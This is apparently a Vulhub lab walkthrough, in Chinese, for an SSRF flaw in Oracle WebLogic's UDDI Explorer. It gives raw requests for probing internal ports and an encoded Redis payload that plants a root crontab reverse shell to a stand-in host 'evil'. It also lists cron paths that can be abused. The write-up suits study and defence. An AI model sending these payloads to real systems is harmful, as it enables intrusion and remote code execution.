





Weblogic UDDI Explorer SSRF漏洞¶
Oracle WebLogic Server是一个基于Java的企业级应用服务器。在WebLogic的UDDI Explorer应用中存在一个服务器端请求伪造（SSRF）漏洞，攻击者可以通过该漏洞发送任意HTTP请求，进而可能导致内网探测或攻击内网中的脆弱服务，如Redis等。
参考链接：
- https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf
- https://foxglovesecurity.com/2015/11/06/what-is-server-side-request-forgery-ssrf/
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
环境搭建¶
执行如下命令启动WebLogic服务器：
docker compose up -d
服务启动后，访问http://your-ip:7001/uddiexplorer/即可查看UDDI Explorer应用，无需登录认证。
漏洞复现¶
SSRF漏洞存在于SearchPublicRegistries.jsp页面中。我们可以使用Burp Suite向http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp发送请求来测试该漏洞。
首先，我们尝试访问一个内部服务，如http://127.0.0.1:7001：
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
当访问一个可用端口时，会收到一个带有状态码的错误响应。如果访问的是非HTTP协议，则会返回"did not have a valid SOAP content-type"错误。

当访问一个不存在的端口时，响应会显示"could not connect over HTTP to server"。

通过分析这些不同的错误信息，我们可以有效地探测内网状态。
Redis反弹Shell利用¶
WebLogic的SSRF漏洞有一个显著特点：尽管是GET请求，我们可以通过传入%0a%0d来注入换行符。由于Redis等服务使用换行符来分隔命令，我们可以利用这一特性来攻击内网中的Redis服务器。
首先，我们扫描内网中的Redis服务器（Docker网络通常使用172.*网段），发现172.18.0.2:6379可以访问：

然后，我们可以发送三条Redis命令，将shell脚本写入/etc/crontab：
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
对这些命令进行URL编码：
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
通过SSRF漏洞发送编码后的payload：
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

成功获得反弹shell：

需要注意的是，可以利用的cron位置有以下几处：
/etc/crontab（系统默认定时任务文件）/etc/cron.d/*（系统定时任务目录）/var/spool/cron/root（CentOS系统下root用户的定时任务文件）/var/spool/cron/crontabs/root（Debian系统下root用户的定时任务文件）